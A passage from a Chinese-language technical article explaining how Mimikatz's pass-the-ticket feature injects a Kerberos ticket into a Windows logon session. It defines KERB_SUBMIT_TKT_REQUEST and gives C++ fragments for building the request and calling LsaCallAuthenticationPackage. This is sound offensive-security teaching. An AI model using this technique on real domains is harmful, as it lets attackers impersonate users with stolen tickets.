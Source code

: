 这里还需要补充一点知识。

### KERB\_SUBMIT\_TKT\_REQUEST

`KERB_SUBMIT_TKT_REQUEST` 结构用于向 Kerberos 颁发机构（KDC）提交票据请求。该结构体没有公开在微软文档中，其定义如下。

```c++
typedef struct _KERB_SUBMIT_TKT_REQUEST {
    KERB_PROTOCOL_MESSAGE_TYPE MessageType;
    LUID LogonId;
    ULONG Flags;
    KERB_CRYPTO_KEY32 Key; // key to decrypt KERB_CRED
    ULONG KerbCredSize;
    ULONG KerbCredOffset;
} KERB_SUBMIT_TKT_REQUEST, *PKERB_SUBMIT_TKT_REQUEST;  
```

- MessageType：标识正在发出的请求类型的 KERB\_PROTOCOL\_MESSAGE\_TYPE 值。此成员必须设置为 KerbSubmitTicketMessage。
- Key：用于解密 Kerberos 凭据（KRB\_CRED）的加密密钥。
- KerbCredSize：表示 KRB\_CRED 数据的大小（以字节为单位），即 KRB\_CRED 凭据的长度。
- KerbCredOffset：表示 KRB\_CRED 数据在整个消息中的偏移量，即 Kerberos 凭据的起始位置。

`KerbSubmitTicketMessage` 调度例程从 KDC 获取票证并更新票证缓存。需要 SeTcbPrivilege 才能访问另一个登录帐户的票证缓存。

在 `LsaCallAuthenticationPackage()` 函数中使用 `KERB_SUBMIT_TKT_REQUEST` 时，需要扩展 `KERB_SUBMIT_TKT_REQUEST` 结构体的大小，将 `KRB_CRED` 数据追加到 `KERB_SUBMIT_TKT_REQUEST` 结构后面，并将 `KRB_CRED` 数据在整个 `KERB_SUBMIT_TKT_REQUEST` 消息中的偏移量给到 `KerbCredOffset`。

Mimikatz 的 `kerberos::ptt` 通过 `LsaCallAuthenticationPackage` 函数发送 `KERB_SUBMIT_TKT_REQUEST` 消息，将现有的 Kerberos 票据传递（文件或二进制数据）到内存中。

`KerberosPTT()` 函数首先声明了一个 `KERB_SUBMIT_TKT_REQUEST` 结构的指针变量 `pKerbSumbitRequest`。然后扩展了 `KERB_SUBMIT_TKT_REQUEST` 结构的大小，如下所示。

```c++
submitBufferLength = sizeof(KERB_SUBMIT_TKT_REQUEST) + encodedTicketSize;
pKerbSumbitRequest = (PKERB_SUBMIT_TKT_REQUEST)LocalAlloc(LPTR, submitBufferLength);
```

这里 `pKerbSumbitRequest` 在原来 `sizeof(KERB_SUBMIT_TKT_REQUEST)` 大小的基础上增加了 `encodedTicketSize`，以保证后续将票据数据追加到 `pKerbSumbitRequest` 指向的内存中。

然后设置 `pKerbSumbitRequest` 中的成员，必须将 `MessageType` 成员设为 `KerbSubmitTicketMessage`，`KerbCredSize` 设为之前构建好的 `KRB-CRED` 结构数据的大小，`KerbCredOffset` 设置追加的 `KRB-CRED` 数据相对于 `KERB_SUBMIT_TKT_REQUEST` 结构起始位置的偏移量，并通过 `RtlCopyMemory` 将票据数据追加到 `pKerbSumbitRequest` 扩展出来的内存中，如下所示。

```c++
pKerbSumbitRequest->MessageType = KerbSubmitTicketMessage;
pKerbSumbitRequest->KerbCredSize = encodedTicketSize;
pKerbSumbitRequest->KerbCredOffset = sizeof(KERB_SUBMIT_TKT_REQUEST);
RtlCopyMemory((PBYTE)pKerbSumbitRequest + pKerbSumbitRequest->KerbCredOffset, encodedTicket, encodedTicketSize);
```

最后，通过调用 `LsaCallKerberosPackage()` 函数发送 `KerbSubmitTicketMessage` 消息请求，将该票据提交到当前会话缓存中，完成票据传递过程。

```c++
status = NT_SUCCESS(LsaCallAuthenticationPackage(hLSA, AuthenticationPackage, pKerbSumbitRequest, submitBufferLength, &pKerbSumbitResponse, &returnBufferLength, &packageStatus));
```
